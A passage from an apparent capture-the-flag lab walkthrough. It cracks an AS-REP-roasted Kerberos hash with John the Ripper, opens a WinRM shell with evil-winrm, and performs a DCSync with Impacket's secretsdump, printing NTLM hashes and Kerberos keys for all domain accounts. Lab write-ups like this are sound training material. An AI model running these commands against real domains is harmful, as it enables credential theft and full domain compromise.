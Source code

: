 We obtain the TGT ticket for the `svc_bes` and save it to a file called `hash`. We can use Hashcat or JTR in conjunction with `rockyou.txt` to obtain the plaintext password `Sheffield19`

```
# echo "$krb5asrep$23$svc_bes@MEGACORP.LOCAL:5fed9e70404f9f3e533da75fc5c8a6e0$feea6f77a795ab07264edf21ebafd039c5699560ef4116548f52ffc426481cb9c7da3bc26577cdf80732e9ddac1e3125d6f51b9c79d4d9f6943a4c9114eff8eeb8571ee07c9a8ae69c0c5235ebc5b0b8a6591eb02257ad04af50bbe0e9ced2311e9c7413bbf70faf43b2d0c64114e5bfbbef8f475df64f9a7d21c981aac73398f330e97f1439829d5f5f28cdd0a3b0d62764e1f46bfd9a1034c72ec5a635dbac32254263a51ac7eb4f3e8b202f25180f5d28a78110030cdba67e6d2c24db91c5946e983082b3f60c7f156d056a83fcb92a4f5eff7ef8bb7ee6fd2f5d71c05847e76022b10640dc5d2cfa06b23f5f93cc" > hash

# john hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:23 DONE (2021-03-14 23:45) 0.04277g/s 453507p/s 453507c/s 453507C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

It is now possible to access the server as `svc_bes` using WinRM, and gain user.txt.

```
# gem install evil-winrm

# evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> whoami
megacorp\svc_bes
```

### Privilege Escalation

In order to leverage the `GetChangesAll` permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users.

```
┌──(root💀kali)-[/home/kali/Documents/tools/impacket/examples]
└─# python3 secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:a7c5b1140bf9e5fe8cd2f8eff51331b8:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
```